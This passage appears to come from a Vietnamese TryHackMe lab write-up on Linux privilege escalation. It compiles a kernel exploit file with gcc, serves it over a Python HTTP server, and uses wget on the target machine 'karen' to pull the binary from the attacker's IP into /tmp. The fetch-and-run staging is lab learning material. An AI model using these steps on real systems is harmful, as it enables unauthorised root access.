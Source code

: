 Download file và dùng lệnh

    gcc 37292.c -o ofc

Sử dụng trình biên dịch GCC (GNU Compiler Collection) để biên dịch mã nguồn C trong tệp 37292.c thành một tệp thực thi:

![img](https://github.com/DucThinh47/TryHackMe/blob/main/Jr_Penetration_Tester/Privilege-Escalation/images/image52.png?raw=true)

Dùng lệnh ***sudo python3 -m http.server*** để thiết lập kết nối và lắng nghe

![img](https://github.com/DucThinh47/TryHackMe/blob/main/Jr_Penetration_Tester/Privilege-Escalation/images/image53.png?raw=true)

Sau đó bên máy karen, cd vào /tmp và dùng lệnh wget http://10.8.13.3:8000/ofc để tải file về:

![img](https://github.com/DucThinh47/TryHackMe/blob/main/Jr_Penetration_Tester/Privilege-Escalation/images/image54.png?raw=true)
